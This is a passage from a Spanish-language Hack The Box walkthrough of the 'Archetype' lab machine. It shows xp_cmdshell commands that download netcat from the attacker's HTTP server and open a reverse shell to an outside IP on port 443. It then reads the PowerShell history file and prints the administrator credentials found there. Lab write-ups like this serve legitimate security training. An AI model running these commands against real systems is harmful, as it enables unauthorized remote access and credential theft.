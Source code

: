 Descargo [`nc.exe` (**Netcat**)](https://github.com/int0x33/nc.exe/blob/master/nc.exe), una herramienta que nos permitirá establecer la Reverse Shell. Colocamos este archivo en el directorio del servidor HTTP. 

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-16.png)

Utilizamos el siguiente comando para descargar `nc.exe` desde nuestra máquina hacia la carpeta `C:\Users\sql_svc\Downloads` de la víctima y renombrarlo como `nc64.exe`:

El comando `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.15.25/nc.exe -outfile nc64.exe"` ejecuta PowerShell en la máquina víctima para descargar el archivo `nc.exe` de mi máquina local a través del servidor HTTP que configuramos anteriormente.

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-17.png)

Verificamos en nuestro servidor HTTP que hemos recibido una solicitud de descarga, lo que confirma que hay conectividad entre ambas máquinas:

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-18.png)

Con Netcat descargado en la máquina víctima, ejecutamos el siguiente comando para iniciar la Reverse Shell: `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.15.52 443"` 

Netcat (`nc64.exe`) abre una conexión inversa desde la máquina víctima a nuestra máquina en el puerto 443 y redirige el acceso a la consola de comandos de Windows (`cmd.exe`).

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-19.png)

Al revisar la consola de Netcat en nuestra máquina, notamos que hemos recibido la conexión. Ahora tenemos acceso directo al sistema operativo de la máquina víctima y podemos ejecutar comandos como el usuario `sql_svc`

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-20.png)

La flag de user se encuentra en el directorio `C:\Users\sql_svc\Desktop>`

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-21.png)

## Privilege Escalation

Utilizo el comando `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` El comando utiliza `type` para leer y mostrar el contenido del archivo `ConsoleHost_history.txt`, que almacena el historial de comandos ejecutados en PowerShell para el usuario `sql_svc`. Este archivo se encuentra en la ruta predeterminada de PSReadline, una herramienta que mejora la experiencia interactiva de PowerShell al registrar los comandos ingresados.

Logramos encontrar credenciales: 

- User: `administrator`
- Password: `MEGACORP_4adm1n!!`

![Archetype Yw4rf](../../../assets/HTB/Archetype/archetype-22.png)
